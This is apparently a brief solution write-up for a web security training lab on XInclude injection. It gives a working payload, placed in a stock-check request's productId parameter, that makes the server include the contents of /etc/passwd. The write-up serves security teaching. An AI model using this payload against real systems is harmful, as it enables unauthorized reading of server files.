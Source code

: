 # Lab: Exploiting XInclude to retrieve files

Intercept a check stock request and change the productId parameter to `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

Forward the request to return the target data, solving the lab.